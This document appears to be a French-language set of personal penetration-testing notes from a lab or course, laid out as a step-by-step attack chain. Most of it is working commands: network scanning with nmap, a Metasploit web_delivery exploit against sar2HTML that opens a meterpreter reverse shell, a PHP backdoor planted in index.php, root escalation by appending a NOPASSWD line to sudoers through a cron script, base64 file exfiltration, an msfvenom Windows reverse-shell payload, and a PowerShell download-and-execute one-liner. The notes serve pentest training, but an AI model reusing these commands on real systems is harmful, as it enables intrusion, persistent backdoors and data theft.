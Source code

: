 July with JM.md


## Etapes de pentest:

1. Reconnaissance
2. Analyse de vulns
3. Exploit de vulns - initial accès
4. Post Exploit - Persistance d’accès - Mouvement latéraux - data exfiltration
6. Rapport


    nmap 10.0.0.0/24 -sn (1ere étape +discret donne les machines up)

    nmap 10.0.0.0/24 -p 22,21,23,135,80,443,3389,3306,445 -oX /tmp/a.xml -Pn --open (2eme étape vision sur les services)

    nmap 10.0.0.0/24 -p 80,443,8080,8443,3389,445 -sV --open -sC -T4 -A -oX /tmp/a.xml   (fingerprinting)

Dans metasploit:  db_import /tmp/a.xml
(services, hosts, vulns)



2. recherche de vulns

découverte http://nananana/robots.txt
on trouve http://10.0.0.103/sar2HTML/ > recherche google sar2HTMLvXXX

Exploitdb


- msf5 > use exploit/multi/script/web_delivery
- set lport 4444
- set lhost 192.168.0.18
- set uripath /rgpd/
- set target 1
- set payload php/meterpreter/reverse_tcp
- exploit

copier l'exploit dans la barre d'adresse du navigateur 
## Backdoor:
sessions 1 > meterpreter

ls
lcd /tmp
download index.php
modif de index
upload /tmp/index.php

curl http://192.168.0.13/sar2HTML/index.php?tata=id | head -n 1



changer le meterpreter en bash : python3 -c 'import pty;pty.spawn("/bin/bash")'



## élévation de droit:
- fichier /var/www/html/write.sh > download >  echo "www-data ALL= (root) NOPASSWD: /usr/bin/sudo " >>/etc/sudoers > upload
- shell > /etc/crontab > attendre 5 min
- sudo -u root sudo su

## exfiltration:

cat /tmp/a.txt |base64 > genere le base 64 du fichier > on c/c le b64
- recup windows_adrienne.rdp

# rdp Windows par payload

- forger malicious
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=8080 LHOST=10.0.0.2 -f psh-net -o malicious.ps1
- demarrer le serveur SimpleHTTPS au même endroit
python -m SimpleHTTPServer 80

## dans metasploit:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp (> options :lhost, lport)

## powershell:
$e=new-object net.webclient;
IEX $e.downloadstring('http://xxx.xxx.xxx.xxx/malicious.ps1')



